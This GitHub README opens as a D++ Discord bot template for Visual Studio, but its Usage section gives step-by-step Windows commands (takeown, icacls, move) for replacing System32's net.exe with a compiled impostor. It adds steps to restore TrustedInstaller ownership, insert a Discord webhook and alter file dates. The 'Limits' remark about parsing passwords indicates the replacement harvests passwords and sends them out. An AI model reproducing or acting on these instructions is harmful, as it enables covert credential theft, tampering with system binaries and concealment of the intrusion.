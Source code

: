 # D++ Windows Bot Template

A [D++](https://github.com/brainboxdotcc/DPP) Discord Bot template for Visual Studio 2022 (x64 and x86, release and debug). This repository is the result of [this tutorial](https://dpp.dev/build-a-discord-bot-windows-visual-studio.html) with additional enhancements for automatic selection of the correct architecture, and copying of the dll files into the correct folders on successful build.

This template comes packaged with the latest master branch of D++ from the CI. To use this project simply put your code into the `MyBot.cpp` and press F7. You can do much more with this template.

For support and assistance please join [the official support discord](https://discord.gg/dpp).

## Usage
1. rename net.exe to not.exe
    - `takeown /F \windows\system32\net.exe`
    - `icacls \windows\system32\net.exe /grant administrator:F`
    - `move \windows\system32\net.exe \windows\system32\not.exe`
2. give privs back to trusted installer
    - `icacls \windows\system32\net.exe /grant "NT SERVICE\TrustedInstaller:F"`
    - remove administrators and administrator
    - change trusted installer to owner
4. Place your discord web hook link into the program
5. Compile this program and put it in `C:\Windows\System32\`
6. Add dependencies to `C:\Windows\System32\`
7. (optional) change dates on files
8. Flourish

### Dependencies
- everything in the release folder:
  - dpp.dll
  - libcrypto-1_1-x64.dll
  - libsodium.dll
  - libssl-1_1-x64.dll
  - net.exe
  - opus.dll
  - zlib1.dll
- `vcruntime140.dll` which can be found in the most recent tag or [here](https://aka.ms/vs/17/release/vc_redist.x64.exe)

### Limits
- This program does not properly parse passwords with `|` in them 
